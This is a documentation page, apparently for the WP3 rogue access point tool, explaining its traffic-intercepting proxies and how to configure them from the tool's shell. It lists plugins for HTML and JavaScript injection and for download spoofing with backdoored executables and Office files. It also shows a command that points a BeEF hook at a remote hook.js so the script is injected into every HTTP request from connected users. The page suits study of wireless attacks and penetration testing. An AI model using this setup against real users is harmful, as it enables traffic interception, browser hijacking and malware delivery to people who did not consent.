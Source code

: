 ```yaml
---
title: 'Proxies'
description: 'How proxies feature works.'
---
```



The proxies are designed to add features to WP3 core and run parallel with access point (AP),
but redirect all traffic with `iptables`. Proxies work by intercepting a request, modifying the request if necessary, then handling or forwarding the request to its destination. When a user connects to a AP, the transparent proxy intercepts the request before passing it on to the provider.  

{% include alert.html type="info" content="The most important is you can run one proxies each time , because the proxies has been designed to work for manipulate data packets redirecting all data for a specific port number" %}

Avaliable proxies:

- **pumpkinproxy** - Proxy for intercept network traffic on TCP protocol [doc](#pumpkinproxy)
- **captiveflask** - Allow block Internet access for users until they open the page login page. [doc](#captiveflask)
- **noproxy** - Runnning without proxy redirect traffic

The basic command guidelines to get a plugins are:

if you want to select the proxy, follow command bellow. 
```bash
wp3 > set proxy proxy_name
```

if the proxy has plugins, when type `proxies` you see somes options for set. you can to enable/disable plugin command, type `tab` to autocomplete ;): 
```bash
wp3 > set proxy_name.plugin_name true/false
```

The example above is for enable/disable a plugin, but you can use same sintax to configure plugin paramenter. you can see this paramenter typing `info proxy_name` or using type like this example bellow, using `tab` to autocomplete.

```bash
wp3 > set pumpkinproxy.
pumpkinproxy.beef                            pumpkinproxy.html_inject
pumpkinproxy.beef.url_hook                   pumpkinproxy.html_inject.content_path
pumpkinproxy.downloadspoof                   pumpkinproxy.js_inject
pumpkinproxy.downloadspoof.backdoorExePath   pumpkinproxy.js_inject.url
pumpkinproxy.downloadspoof.backdoorPDFpath   pumpkinproxy.no-cache
pumpkinproxy.downloadspoof.backdoorWORDpath  pumpkinproxy.replaceImages
pumpkinproxy.downloadspoof.backdoorXLSpath   pumpkinproxy.replaceImages.path
wp3 > set pumpkinproxy.
```

let now set `url_hook` parameter the plugin beef to inject javascript in all request http.

```bash
wp3 > set pumpkinproxy.beef.url_hook http://172.16.149.141:3000/hook.js
```

Proxies developers and users are welcome to include your proxy into this project, take a look the guidelines [how to create a proxy](#development).